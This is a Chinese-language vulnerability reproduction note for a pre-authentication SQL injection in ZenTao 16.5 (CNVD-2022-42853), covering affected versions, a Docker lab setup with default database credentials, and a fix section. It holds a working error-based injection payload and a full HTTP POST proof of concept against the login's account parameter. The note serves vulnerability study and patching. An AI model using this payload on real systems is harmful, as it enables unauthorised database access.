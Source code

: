 # 禅道 v16.5 前台 SQL 注入 CNVD-2022-42853

## 漏洞描述

禅道项目管理系统 v16.5 版本未对输入的 account 参数内容作过滤校验，导致攻击者拼接恶意 SQL 语句执行。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

## 漏洞影响

```
禅道 16.5，16.5beta1（开源版）  
禅道 6.5，6.5beta1（企业版）  
禅道 3.0，3.0beta1（旗舰版）
```

## 环境搭建

执行如下命令启动一个禅道 16.5 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:16.5
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`：

![](images/禅道%20v16.5%20前台%20SQL%20注入%20CNVD-2022-42853/image-20250407103609801.png)

## 漏洞复现

报错型注入 payload：

```
admin' AND updatexml(1, concat(0x7e, (SELECT version()), 0x7e), 1) AND '1'='1 
```

poc：

```
POST /user-login.html HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://your-ip:8084
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8084/index.php
Content-Length: 92

account=admin%27+AND+updatexml%281%2C+concat%280x7e%2C+%28SELECT+version%28%29%29%2C+0x7e%29%2C+1%29+AND+%271%27%3D%271
```

![](images/禅道%20v16.5%20前台%20SQL%20注入%20CNVD-2022-42853/image-20250407104608600.png)

## 漏洞修复

升级至最新版本 https://www.zentao.net/
